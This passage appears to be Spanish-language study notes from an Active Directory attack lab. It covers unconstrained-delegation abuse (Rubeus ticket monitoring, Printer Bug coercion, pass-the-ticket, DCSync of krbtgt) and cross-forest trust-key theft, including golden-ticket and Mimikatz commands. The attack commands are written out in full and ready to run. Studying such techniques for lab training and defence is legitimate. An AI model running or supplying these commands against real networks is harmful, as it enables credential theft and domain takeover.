 ```
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Rubeus.exe \\us-web\C$\Users\Public\Rubeus.exe /Y
```

3. Acceder y monitorizar tickets en el host con Unconstrained Delegation

```
C:\Windows\system32>winrs -r:us-web cmd.exe

C:\Users\webmaster>C:\Users\Public\Rubeus.exe monitor /targetuser:usvendor-dc$ /interval:5 /nowrap
```

4. Ejecutar ataque de Coercion (Ejemplo: Printer Bug)

```
C:\AD\Tools>C:\AD\Tools\MS-RPRN.exe \\usvendor-dc.usvendor.local \\us-web.us.techcorp.local
```

5. Obtener Ticket y realizar PassTheTicket

```
C:\AD\Tools> C:\AD\Tools\Rubeus.exe ptt /ticket:TGTofUSVendor-DC$
C:\AD\Tools> C:\AD\Tools\SharpKatz.exe --Command dcsync --User usvendor\krbtgt --Domain usvendor.local --DomainController usvendor-dc.usvendor.local
```
## Trust Key

- Abusando del flujo de confianza entre bosques en una confianza bidireccional, es posible acceder a recursos a través del límite del bosque.
- Podemos utilizar la clave de confianza, de la misma manera que en las confianzas de dominio, pero podemos acceder ``sólo a aquellos recursos que están explícitamente compartidos`` con nuestro bosque actual.
- ``El filtrado SID se produce entre bosques`` de modo que un bosque no puede solicitar ningún recurso como EA o DA para otro bosque.
- Para acceder a los recursos del dominio de confianza, el filtrado SID debe estar desactivado.

En este ejemplo, primero se impersonará al usuario Administrator de eu.local para solicitar las claves de confianza ``eu\euvendor`` ( ``eu`` -> ``euvendor`` ).

```
C:\Windows\system32>C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /ptt"
mimikatz# lsadump::dcsync /user:eu\euvendor$ /domain:eu.local
```

Otra forma es solicitar las claves de confianza desde el mismo DC del dominio eu:

```
### Solicitar clave de confianza entre bosques
### Forma 1
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
### Forma 2
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
### Forma 3
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
